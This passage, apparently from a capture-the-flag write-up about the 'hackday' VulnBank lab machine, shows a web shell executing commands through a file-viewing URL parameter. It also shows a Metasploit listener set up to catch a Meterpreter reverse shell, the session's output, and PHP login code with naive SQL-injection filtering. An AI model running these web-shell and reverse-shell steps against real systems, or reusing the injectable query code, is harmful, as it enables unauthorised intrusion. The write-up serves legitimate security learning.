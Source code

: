 we can verify it's now executable
```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=shell.jpg&cmd=ls%20-alh%20./upload/meterpreter.jpg
```

```
-rwxr-xr-x 1 www-data www-data 155 Nov 24 17:13 ./upload/meterpreter.jpg
```

Next step is to fire up a meterpreter listener and execute the binary via the web shell.

```
msfconsole -qx 'use multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set LHOST 192.168.56.102; set LPORT 1337; set ExitOnSession false; run -j; jobs -v'
```

```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/view_file.php?filename=shell.jpg&cmd=./upload/meterpreter.jpg
```

```
msf exploit(handler) >
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:1337 -> 192.168.56.101:54486) at 2016-11-24 17:18:05 +0100
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : hackday
OS           : Linux hackday 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:37 UTC 2016 (x86_64)
Architecture : x86_64
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=33, gid=33, euid=33, egid=33, suid=33, sgid=33
```

We can now take a closer look at the SQL-Injection filtering and after looking at the files we can see whats going on in `config.php`:

```php
function check_login($username,$password){
  $username = str_ireplace("OR", "", $username);
  $username = str_ireplace("UNION", "", $username);
  $username = str_ireplace("AND", "", $username);
  $password = str_ireplace("'","",$password);
  $sql_query = "SELECT ID FROM klienti where `username` = '$username' and `password` = '$password';";
  $result = mysqli_fetch_assoc(execute_query($sql_query));
  $result = $result["ID"];
  if($result >= 1){
    return $result;
  }else{
    return -1;
  }
}
```
